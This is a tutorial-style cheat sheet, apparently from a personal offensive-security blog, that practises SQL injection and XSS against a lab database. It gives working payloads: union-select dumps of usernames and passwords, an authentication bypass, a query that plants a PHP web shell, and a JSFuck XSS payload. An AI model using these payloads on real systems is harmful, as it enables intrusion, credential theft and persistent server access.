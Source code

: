 ```yaml
---
layout: post
title: "sql injection xss playground"
date: 2024-06-18
categories: offensive-security-cheetsheets
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /offensive-security-cheetsheets/
---
```


---
description: This is my playground for SQL injection and XSS
---

# SQL Injection & XSS Playground

## Classic SQL Injection

### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 15-59-39.png>)

```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 16-03-00.png>)

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99' 
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 16-16-06.png>)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 16-57-24.png>)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 19-15-16.png>)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](<../../.gitbook/assets/Screenshot from 2018-11-18 21-39-53.png>)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](<../../.gitbook/assets/Screenshot from 2018-11-19 22-43-46.png>)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 15-51-50.png>)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 15-53-52.png>)

```
```

## XSS

![](<../../.gitbook/assets/Peek 2018-11-17 20-17.gif>)

### Strtoupper Bypass

Say we have the following PHP code that takes `name` as a user supplied parameter:

```php
<?php
        $input=$_GET['name'];
        $sanitized=strtoupper(htmlspecialchars($input));   
        echo '<form action="">';
        echo "First name: <input type='text' name='name' value='".$sanitized."'><br>";
        echo "<input type='submit' value='Submit form'></form>";
        echo "</HTML></body>";
?>
```

Line 3 is vulnerable to XSS, and we can break out of the input with a single quote `'`:

```php
$sanitized=strtoupper(htmlspecialchars($input));   
```

For example, if we set the `name` parameter to the value of  `a'`, we get:

![](<../../.gitbook/assets/Screenshot from 2018-11-17 21-54-22.png>)

Note that the `a` got converted to a capital `A` and this is due to the `strtoupper` function being called on our input. What this means is that any ascii letters in our JavaScript payload will get converted to uppercase and become invalid and will not execute (i.e`alert() != ALERT()`).

To bypass this constraint, we can encode our payload using JsFuck, which eliminates all the letters from the payload and leaves us with this:

```php
A' onmouseover='[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()'
```

![](<../../.gitbook/assets/Screenshot from 2018-11-17 21-55-33.png>)

## References

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet" %}

{% embed url="http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html" %}

{% embed url="https://www.youtube.com/watch?v=Rqt_BgG5YyI" %}
@spotheplanet
